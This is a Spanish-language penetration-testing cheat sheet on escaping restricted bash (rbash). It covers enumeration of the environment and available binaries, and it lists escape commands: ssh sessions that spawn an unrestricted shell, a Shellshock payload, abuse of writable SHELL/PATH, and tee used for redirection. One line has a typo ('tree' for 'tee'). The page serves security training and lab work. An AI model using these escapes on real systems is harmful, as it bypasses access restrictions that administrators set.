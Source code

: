 ```yaml
---
title: Escape Restricted Shell
published: true
---
```


# RESTRICTED SHELLS

Es una shell que restringe muchas funcionalidades y comandos del sistema. Para hacer esto se define la bash como `rbash`.

Esto limita lo siguiente:

- Habilidad de cambiar de directorio (cd).
- especificar rutas absolutas o archivos que contengan `/` o `-`.
- comandos que usen barras `/`.
- Setear o desetear contenido de la variable de entorno PATH.
- usar ENV o BASH_ENV para manipular variables de entorno.
- Usar redirecciones de bash (>, >>, >|, <>, >&, &>)
- no es posible desactivar el modo restringido con `set +r`o `set +o restricted`.

```bash
cd

rbash: cd: restricted
```

**ENUMERACION**

podemos correr el siguiente comando y ver las variables de entorno **\$SHELL** y **\$PATH**:

```bash
ENV


#output 

...
SHELL=/bin/rbash
PATH=/var/chroot/bin
...

```

en caso de no estar disponible podemos hacer:

```bash
ECHO $0

echo $PATH

echo $SHELL
```

`$0` devuelve el nombre del proceso en ejecución. Si se usa dentro de un shell, devolverá el nombre del shell.

podemos ver los comandos disponibles en esa rbash enumerando el directorio `/usr/local/rbin/`, en caso de no estar disponible **ls** podemos usar echo:

```bash
ls /usr/local/rbin/

echo /usr/local/rbin/*
```

Investigue cada comando disponible para ver si hay escapes de shell conocidos asociados con ellos. Algunas de las técnicas se pueden combinar juntas.

**ESCAPE**

a traves de binarios de [GTFObins](https://gtfobins.github.io/) podemos escapar a una shell, aunque sea no privilegiada pero a una mas funcional:

Busque variables de escritura. Ejecutar `export -p`para listar las variables exportadas. La mayoría de las veces `SHELL`y `PATH`lo serán `-rx`, lo que significa que son ejecutables pero no escribibles. Si se pueden escribir, simplemente configúrelos `SHELL`en el shell de su elección o `PATH`en un directorio con comandos explotables.

**ESCAPE ANTES DE CONECTARSE A LA RBASH**

```bash
ssh user@10.0.0.3 -t "/bin/sh"
```

```bash
ssh user@10.0.0.3 -t "bash --noprofile"
```

shellshock:

```bash
ssh user@10.0.0.3 -t "(){:;}; /bin/bash"
```

**REDIRECCION DE SALIDA**

Dado que los operadores de redirección ( `>`o `>>`) generalmente están restringidos, el `tee`comando puede ayudarlo a redirigir la salida de, por ejemplo, el `echo`comando

```BAsh
echo '#!/usr/bin/env bash' | tree script.sh
echo '# Your code' | tee -a script.sh
```

[https://0xffsec.com/handbook/shells/restricted-shells/](https://0xffsec.com/handbook/shells/restricted-shells/)